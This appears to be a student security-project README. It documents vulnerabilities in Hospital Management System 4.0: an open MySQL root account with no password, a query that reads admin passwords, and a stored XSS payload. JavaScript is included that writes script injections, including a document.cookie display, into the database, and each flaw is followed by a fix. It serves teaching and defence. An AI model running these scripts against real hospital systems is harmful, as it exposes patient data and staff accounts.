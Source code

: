 # Information Security Project

Table of contents:
 - Introduction
 - Hospital Management System 4.0
 - Vulnerabilities
    - Insecure database
    - XSS attacks
- Damages
- References

## Introduction
The aim of this project is to identify a vulnerability and to write an application which performs a penetration test.
This application was build whit the basic knowledge of:
- HTML
- JavaScript
- MySql
- XSS-Attacks

The exploite I've chosen for this project is listet at the references part of this report.
To see how to get started please have a look at the file "Instructions.md".

## Hospital Management System 4.0
phpgurukul:
> Hospital Management System is a web application for the hospital which manages doctors and patients.

The sofware is based on php and uses a MySQL database.
The software offers 3 different modules which are the following:
- Admin module
- User module
- Doctor module

Each module has access to different tasks which are important for every hospital.
One of the most important tasks is the storage of personal informations of each patient.
This data is also the most interesting data for hackers.

## Vulnerabilities of the Software

### Insecure database
We already encounter the first vulnerability of the application when we've done the setup. 
As you may have noticed, you were not asked to change the security settings at any stage of 
the database setup. So it is possible for everyone on the installation server to read the database 
data with simple SQL script.
Due to this security hole it is possible to perform any action, e.g. change the admin password, 
read out the patient data or delete the entire data. 
To perform such actions it is sufficient to connect to the database with the standard authentication data:
- Username: "root"
- Password: ""

It should also be noted that the names of the tables are very easy to consult. These should be obfuscated.
Furthermore, confidential data such as passwords are not encrypted but simply stored as plain text. Here the already 
integrated function for password encryption of MySQL databases should be used.

It is also shocking that the queries to the database are integrated directly in the HTML 
and are therefore visible for all those who are familiar with the browser development tools. 
These queries should be provided in an external file. 

#### Examples from project

##### Create database connection
The following piece of code shows how to create a databse connection in JavaScript.
All you need to know for this are the standard authentication data and the name of the 
database which we know already from the setup.
``` JavaScript
function getDatabaseConnection() {
	const mysql = require('mysql');

	return mysql.createConnection({
		host: "localhost",
		user: "root",
		password: "",
		database: "hms"
	});
}
```
##### Execute a SQL query
The following code shows how to execute a SQL query.
Additionally if the flag "open" is set to true it opens
the browser with the link to one of the vulnerable sites.
An example for a query could be:
```SELECT password FROM admin```

``` JavaScript
function executeQuery(sql, open = false) {
	const con = getDatabaseConnection();
	con.connect(function (err) {
		if (err) console.log("There went somthing wrong! Please try again!", newLine);
		con.query(sql, function (err, result) {
			if (err) console.log("There went somthing wrong! Please try again!", newLine);
			if (open) {
				var opn = require('opn');
				opn('http://localhost/hospital/hms/admin/doctor-specilization.php');
			}
			else
				console.log(result)
			main();
		});
	});
}
```
#### Solution
The solution to this problem is quite simple.
It would be enough to show the user how to set up the security settings of the databse
and how to change this settings also in the given php project.
An other solution would be to provide a service which sets up the environment for the client.

### XSS Attacks
Most of the input fields of the application are vulnerable to XSS attacks.
One of this fields is the field "doctorspecilization". Using basic knowledge of XSS attacks, html tables and JavaScript
you are able to add a XSS atack to the database.
Here is an example of the payload what you need to enter: ```</td><script>alert("Hello! I am a XSS attack")<script><td>````

#### Why does this work?
First of all it works because there is no check on the backend site for the input values.
The paylode we see above works because the application uses a simple html table to display the list of doctor specilizations.
Explanation of the payload:
- ```</td>```closes the cell of the table.
- ```<script></script>``` allows you to execute JavaScript.
- ```alert("Hello! I am a XSS attack")``` shows a small popup with the message "Hello! I am a XSS attack".
- ```<td>``` opens the next cell of the table to avoid an html parsing error.

#### Examples from project
Unfortunately my JavaScript basics were not good enough to create a valid HTTP request of the type "POST".
This request always ended with the server not giving me a response after I added the payload to the request. 
This could be because of security measures of the tested software or a bug on my part.
To automate the part of the XSS attack I used the vulnerabilities of the database and stored the attack directly 
into the database instead of using a HTTP request.

The following code asks the user to make a few decisions first. These decisions will determine how exactly the XSS 
attack looks like. Then the XSS attack is assembled according to the user's wishes and written to the database using 
the functions we have already seen in the previous section. This makes it possible to display the cookies, for example.  

``` JavaScript
function addXSS() {
	askForInput();
	showXSSOutputOptions();
	const outputFun = readUserInput("Please enter the output function you want to use");
	const outputMsg = readUserInput("Please enter the message you want to show or type 'cookie' if you want to see the cookies: ");
	let msg;
	let query;
	switch (outputFun) {
		case "1":
			msg = outputMsg == "cookie" ? "document.cookie" : outputMsg;
			query = `INSERT INTO doctorspecilization (specilization) VALUES ('</td><script>alert(${msg});</script><td>')`;
			executeQuery(query, true);
			break;
		case "2":
			msg = outputMsg == "cookie" ? "document.cookie" : outputMsg;
			query = `INSERT INTO doctorspecilization (specilization) VALUES ('</td><script>console.log(${msg});</script><td>')`;
			executeQuery(query, true);
		break;
		default:
			console.log("Please enter a valid input!");
			addXSS();
			break;
	}
}
```

#### Solution
To prevent a XSS attack on input fields you have to sanitize the input of the user.
You also have to pay attention where you put this input because even if you filter the 
input of the user there is no sanitazion method which is able to prevent to all XSS attacks.
One of the functions you have to remember when creating a php project with user input is
```htmlspecialchars()```. This function will convert special characters into HTML entities.

Another useful function is ```addslashes()```. This function adds slashes in attempt to prevent 
an attacker from terminating the variable assignment and appending executable code.

These are just a few basic precautions that are usually not sufficient to prevent all XSS attacks. 
A very detailed description how to prevent XSS attacks can be found [here](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).

## Damages
A hacker attack on hospital software would naturally have serious consequences. The database contains 
private information of patients and hospital staff. Furthermore, the patients' appointments are also 
managed by this software. Such data is strictly confidential and should never fall into the wrong hands.

## References
You can find the expoit [here](https://www.exploit-db.com/exploits/47841).